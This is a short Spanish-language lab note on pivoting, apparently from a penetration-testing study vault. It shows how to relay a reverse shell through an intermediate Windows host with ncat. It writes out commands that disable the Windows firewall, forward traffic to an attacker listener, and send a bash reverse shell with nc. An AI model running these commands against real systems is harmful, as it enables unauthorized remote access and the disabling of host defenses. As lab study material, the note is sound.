 [[Lab Pivoting and Tunneling - Synfonos]]
#pivoting 
En windows, en vez de usar socat podemos usar ncat para permitir el tráfico de una reverse shell por parte de una máquina 3 pasando por una máquina windows intermedia. Por ejemplo, desde el Kali nos ponemos a la escucha:
![[Pasted image 20240615203300.png]]

A continuación, en la máquina intermedia podemos desactivar el firewall para evitar tener problemas:
```bash
netsh advfirewall set allprofiles state off
```

![[Pasted image 20240615203306.png]]

Ahora desde la máquina Windows intermedia decimos que todo el tráfico que recibamos por ejemplo por el puerto 1111 lo vamos a enviar al puerto 443 de la máquina atacante:
```bash
ncat -l -p 1111 -c "ncat 192.168.0.20 443"
```

![[Pasted image 20240615203310.png]]

Entonces ahora desde la máquina 3 enviamos la reverse shell a la máquina windows 7 intermedia por el puerto 1111 y deberíamos de recibir la conexión en nuestro Kali:
```bash
nc -c bash 10.10.10.129 1111
```

![[Pasted image 20240615203316.png]]

Y recibimos la conexión:

![[Pasted image 20240615203319.png]]